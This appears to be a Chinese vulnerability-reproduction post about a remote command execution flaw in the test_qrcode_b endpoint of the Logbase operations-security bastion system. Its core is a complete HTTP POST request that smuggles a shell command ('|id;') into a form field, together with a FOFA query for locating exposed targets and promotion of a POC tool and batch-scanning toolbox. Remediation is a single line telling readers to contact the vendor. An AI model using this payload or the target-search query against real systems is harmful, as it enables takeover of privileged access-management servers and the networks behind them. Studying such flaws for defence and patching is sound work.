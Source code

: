 #  思福迪Logbase运维安全管理系统test_qrcode_b接口存在远程命令执行漏洞 附POC   
 南风漏洞复现文库   2023-12-18 23:33  
  
@[toc]  
# 思福迪Logbase运维安全管理系统test_qrcode_b接口存在远程命令执行漏洞 附POC  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 思福迪Logbase运维安全管理系统test_qrcode_b接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
思福迪Logbase运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。  
## 2.漏洞描述  
  
思福迪Logbase运维安全管理系统（Logbase SOM）是新一代操作行为管理安全审计系统，通过B/S方式进行管理，其主要功能为实现对运维人员远程操作服务器、网络设备、数据库过程的授权、监控与审计，实现对IT运维过程的全面监管。支持对多种远程维护方式的支持，如字符终端方式（SSH、Telnet、Rlogin）、图形方式（RDP、X11、VNC、Radmin、PCAnywhere）、文件传输（FTP、SFTP）以及多种主流数据库的访问操作。该系统存在远程命令执行漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
思福迪Logbase运维安全管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlL4QY2bLL3WibOGBCYibAamC8VgqtaMOGwfLB6vzZTyiaGwBerXkkbBZ9rA/640?wx_fmt=jpeg&from=appmsg "null")  
  
思福迪Logbase运维安全管理系统test_qrcode_b接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
product="思福迪-LOGBASE"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/bhost/test_qrcode_b  
  
漏洞数据包：  
```
POST /bhost/test_qrcode_b HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: gzip
Connection: close
Host: 127.0.0.1
Referer: https://127.0.0.1/
Content-Length: 23
Content-Type: application/x-www-form-urlencoded

z1=1&z2="|id;"&z3=bhost
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLmlHibr5IBSddPIuFMXWDyNAu68YW1bxvOOIjlqdHkq9MKc8DtF6cL6g/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现92 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLXtysIFicAW5xvUyKicOWXMhtR0697Pcc6JJNZpmTAW20bZEfUYmE1HkQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
**本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLSuYsKSUictXh0HbkMf3WlWyRLxrm579Jnj0SsQt6RcibYB9UpkCAJOFQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLO5Mjj701oOW2wPmibHBUJPSDhdGpsia3TC4qnjlGyialgqx78TAZtScZQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLGC116eHczs6BBd4YKt9qTOCokhWYIffiaYniauiaIo01tzuMndW7HsuQw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商更新：https://www.logbase.cn/  
## 8.往期回顾  
  
[BYTEVALUE 智能流控路由器存在远程命令漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484752&idx=1&sn=9756adfa2df0cc6e6cd22432167b4887&chksm=974b8857a03c01417fdddcba387d23380656cea4f6d84b2ae5bf6cda529af32e2f1f681a798c&scene=21#wechat_redirect)  
  
  
[多家网关-安全设备存在远程命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484777&idx=1&sn=aeb718a88b7d7f31d93a8f59eaa309f3&chksm=974b886ea03c01784053b4ecfc132f6d4a44a7fa8f00249e181a221b48ce60f3a49a329c86c3&scene=21#wechat_redirect)  
  
  
  
  

